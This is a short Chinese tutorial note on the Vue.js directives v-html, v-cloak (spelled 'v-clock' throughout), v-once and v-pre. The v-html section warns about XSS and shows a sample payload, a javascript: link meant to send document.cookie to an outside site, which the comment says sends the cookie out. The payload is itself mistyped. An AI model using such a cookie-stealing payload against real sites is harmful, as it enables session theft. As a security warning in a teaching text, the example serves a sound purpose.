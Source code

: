 

**v-html:**

用法与v-text相同，但是支持将html结构解析

```html
<div v-html="str"></div>
data: {
   str: '<h2>你好</h2>'
}
```

注意：v-html有安全性问题！

在任何网站上动态渲染任意html是非常危险的，容易导致xss攻击

一定要在可信的内容上使用v-html，不要用在用户提交的内容上

```js
str2: '<a href=javascript:location.href="http://www.baidu.com?docment.cookie">链接</a>' 
// 将cookie发送到目标服务器了
```



**v-clock：**

本质是一个特殊属性，Vue实例创建完毕并接管容器后，会删掉v-clock属性

使用css配合v-clock就可以解决网速慢时页面展示出{{xxx}}的问题

```html
<style>
        [v-clock] {
            display: none; 
        }
</style>

<h2 v-clock>{{name}}</h2>
```



**v-once：**

v-once所在节点在初次动态渲染后，就视为静态内容了

以后数据的改变不会引起v-once所在结构的更新，可以用于优化性能

```html
<h2 v-once>初始化的n值：{{n}}</h2>
<h2 v-clock>当前的n值是：{{n}}</h2>
<button @click="n++">++</button>
```



**v-pre：**

跳过其所在节点的编译过程

可利用它跳过：没有使用指令语法、没有使用插值语法的节点，会加快编译
